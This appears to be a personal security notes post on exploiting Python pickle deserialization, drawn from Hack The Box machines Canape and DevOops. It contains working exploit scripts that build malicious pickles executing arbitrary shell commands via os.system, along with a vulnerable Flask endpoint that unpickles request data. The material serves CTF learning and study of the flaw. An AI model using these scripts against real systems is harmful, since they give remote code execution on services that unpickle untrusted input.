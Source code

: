 ```yaml
---
layout: post
title: Python Pickle Deserialization
description: Python Pickle Deserialization
summary: Python Pickle Deserialization
tags: [python,deserial,foothold]
minute: 1
---
```

## Payload Format
Here is an example script I used in HTB Canape.

```python
#!/usr/bin/env python2

import requests
import pickle
import os
from hashlib import md5

class exploit(object):
  def __reduce__(self):
    return (os.system, ('echo homer && ping -c 1 10.10.14.34',))
    # THIS DOESNT WORK
    # return (os.popen, ('echo homer && ping -c 1 10.10.14.34',)) 

def dump_exploit():
  return pickle.dumps(exploit())

payload = dump_exploit()
c = payload[:-1]
q = payload[-1:]
url = 'http://10.10.10.70'

def submit():
  r = requests.post(url + '/submit', data = {'character': c, 'quote': q})

def check():
  r = requests.post(url + '/check', data = {'id': md5(c+q).hexdigest()})

submit()
check()
```

## Troubleshooting
When I did HTB Canape, my exploit didn't work when I tried to use the HTLM form in firefox.

![](/spindel/assets/Python%20Pickle%20Deserialization/FF16D104-763D-42D2-BF3D-C8181797ADAA.png)

But when I tried 0xdf python [script](https://0xdf.gitlab.io/2018/09/15/htb-canape.html#code), it worked without any issues. I looked deeply by inspecting the packet capture for both python script and browser and here is what I found out.

Left side (python script), right (firefox).

![](/spindel/assets/Python%20Pickle%20Deserialization/7A8A1D33-2216-448E-865C-B2D8D716722D.png)

Based from the capture, the python script is sending `0A` which corresponds to newline `\n` while the firefox capture is sending `5c` which corresponds to file separator `\`.

If I tried again the HTML form in Firefox this time doing actual newline instead of `\n`, the packet capture looks better but it added `0D` for carriage return. Right now, I don't have clue yet on how to remove it.

![](/spindel/assets/Python%20Pickle%20Deserialization/FFB1CBD7-E58C-4BFE-B7B7-25C0016D1223.png)

![](/spindel/assets/Python%20Pickle%20Deserialization/F3B4C80C-4063-4C05-8C08-FAD46B34E93A.png)

* In HTB DevOops, my expoit was not working because I'm trying to incude `Subject` on the actual payload. Once I removed it, exploit worked.

```python
# This fails
payload = dump_exploit()
data_str = str({'Subject': payload})
data = base64.urlsafe_b64encode(data_str)

# This worked
payload = dump_exploit()
data = base64.urlsafe_b64encode(payload)
```

## Other Examples
* HTB DevOops

```python
# Vulnerable code
@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']
```

```python
#!/usr/bin/env python2

# Usage: python2 pickle_exploit.py 'ping -c 1 10.10.14.34'

import requests
import pickle
import os
import sys
from hashlib import md5
import base64

cmd = sys.argv[1]

class exploit(object):
  def __reduce__(self):
    return (os.system, (cmd,)) 

def dump_exploit():
  return pickle.dumps(exploit())

proxies = {'http': 'http://127.0.0.1:8080'}

payload = dump_exploit()
data = base64.urlsafe_b64encode(payload)
url = 'http://10.10.10.91:5000'

def submit():
  print(payload)
  r = requests.post(url + '/newpost', data = data, proxies = proxies)
  if r.status_code == 500:
    print('Exploit failed')
  else:
    print('Exploit successful!')

submit()
```

## References
* HTB Canape
* [Python Pickle Injection](http://xhyumiracle.com/python-pickle-injection/)
* [Exploiting Insecure Deserialization bugs found in the Wild (Python Pickles)](https://macrosec.tech/index.php/2021/06/29/exploiting-insecuredeserialization-bugs-found-in-the-wild-python-pickles/)
* [Pickle Arbitrary Code Execution | root4loot](https://root4loot.com/post/exploiting_cpickle/)
* test
